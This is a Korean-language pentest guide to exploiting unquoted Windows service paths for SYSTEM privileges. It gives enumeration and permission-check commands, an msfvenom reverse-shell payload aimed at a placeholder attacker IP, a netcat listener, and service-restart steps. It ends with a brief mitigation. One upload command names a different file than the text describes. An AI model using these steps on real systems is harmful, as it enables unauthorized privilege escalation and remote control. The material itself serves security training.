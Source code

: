 


# 취약한 서비스 경로 (Unquoted Service Path) 공격 가이드

Unquoted Service Path는 Windows 서비스의 실행 파일 경로가 큰따옴표("")로 묶여 있지 않아 발생하는 고전적인 권한 상승 취약점입니다. 서비스가 높은 권한(예: `NT AUTHORITY\SYSTEM`)으로 실행될 경우, 이 취약점을 통해 시스템을 장악할 수 있습니다.

### **취약점 원리**

만약 서비스의 실행 경로가 `C:\Program Files\Some Service\service.exe`와 같이 공백을 포함하고 따옴표로 묶여있지 않다면, Windows는 이 경로를 순차적으로 해석하려 시도합니다.

1.  `C:\Program.exe`를 실행 시도
2.  (실패 시) `C:\Program Files\Some.exe`를 실행 시도
3.  (실패 시) `C:\Program Files\Some Service\service.exe`를 실행 시도

만약 공격자가 `C:\` 경로에 `Program.exe`라는 이름의 악성 파일을 업로드할 수 있다면, 서비스가 시작될 때 Windows는 원래의 `service.exe` 대신 공격자의 악성 파일을 `SYSTEM` 권한으로 실행하게 됩니다.

---

### **1. 취약점 식별**

- **목표:** 따옴표로 묶여있지 않고, 경로에 공백이 포함된 서비스를 찾습니다.

```powershell title="취약한 서비스 검색"
. .\PowerView.ps1;Invoke-AllChecks
winPEASany.exe

# C:\Windows\ 경로를 제외하고, 경로에 따옴표(")가 없는 서비스를 검색
wmic service get name,pathname,displayname,startmode | findstr /i /v "C:\Windows\" | findstr /i /v """
```

> `winPEAS`나 `PowerUp.ps1` 같은 자동화된 스크립트도 이 취약점을 자동으로 찾아줍니다.

---

### **2. 권한 확인**

- **목표:** 식별된 취약한 경로의 상위 폴더에 현재 사용자가 쓰기 권한을 가지고 있는지 확인합니다.

```powershell title="권한 확인"
sc.exe qc unquotedsvc

# 예: C:\Program Files\Unquoted Path Service\ 경로의 권한 확인
icacls "C:\Program Files\Unquoted Path Service"

# Sysinternals 도구인 accesschk 사용
.\accesschk64.exe /accepteula -uwqd "C:\Program Files\Unquoted Path Service\"

# 서비스 start/stop 권한 있는지 확인
sc.exe start unquotedsvc
sc.exe stop unquotedsvc
```

- **확인 사항:** `Everyone`, `Authenticated Users`, 또는 현재 사용자 그룹(`Users`)에 `(F)`(모든 권한) 또는 `(M)`(수정) 권한이 있는지 확인합니다. 또한, `sc qc <servicename>` 명령어로 해당 서비스를 제어할 권한이 있는지도 확인합니다.

--- 

### **3. 익스플로잇 (Exploitation)**

1.  **리버스 셸 페이로드 생성:**
    - `msfvenom`을 사용하여 `exe` 형식의 리버스 셸 페이로드를 생성합니다. 파일 이름은 Windows가 먼저 실행을 시도할 이름(예: `Program.exe`)으로 지정합니다.
    ```bash title="공격자: msfvenom 페이로드 생성"
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f exe -o Program.exe
```

2.  **페이로드 업로드:**
    - 생성된 `Program.exe`를 쓰기 권한이 있는 경로(예: `C:\`)에 업로드합니다.
    - 다음으로, 실행 파일을 따옴표로 묶지 않은 경로의 쓰기 가능한 폴더에 넣으세요. Windows는 따옴표로 묶지 않은 컨텍스트에서 데이터 구문 분석을 처리하는 방식 때문에 원래 실행 파일보다 먼저 실행 파일을 읽습니다.
    ```bash title="페이로드 업로드"
copy "C:\users\user\jaja\reverse.exe" "C:\Program Files\Unquoted Path Service\Common.exe"
```

3.  **리스너 실행:**
    - 공격자 머신에서 Netcat 리스너를 실행하여 연결을 기다립니다.
    ```bash title="공격자: Netcat 리스너"
rlwrap nc -lvnp 443
```

4.  **서비스 재시작:**
    - 타겟 시스템에서 서비스를 재시작하여 악성 페이로드가 실행되도록 합니다.
    ```powershell title="타겟: 서비스 재시작"
sc.exe query unquotedsvc
sc stop <servicename>
sc start <servicename>
```

5.  **권한 상승 성공:**
    - 서비스가 시작되면서 `Program.exe`가 `SYSTEM` 권한으로 실행되고, 공격자의 리스너에 `NT AUTHORITY\SYSTEM` 셸이 연결됩니다.

--- 

### **4. 방어 (Mitigation)**

- **해결책:** 모든 서비스의 실행 파일 경로를 **반드시 큰따옴표("")로 묶어주어야 합니다.**
  ```powershell
  sc config "<servicename>" binpath= "\"C:\Program Files\Some Service\service.exe\""
  ```
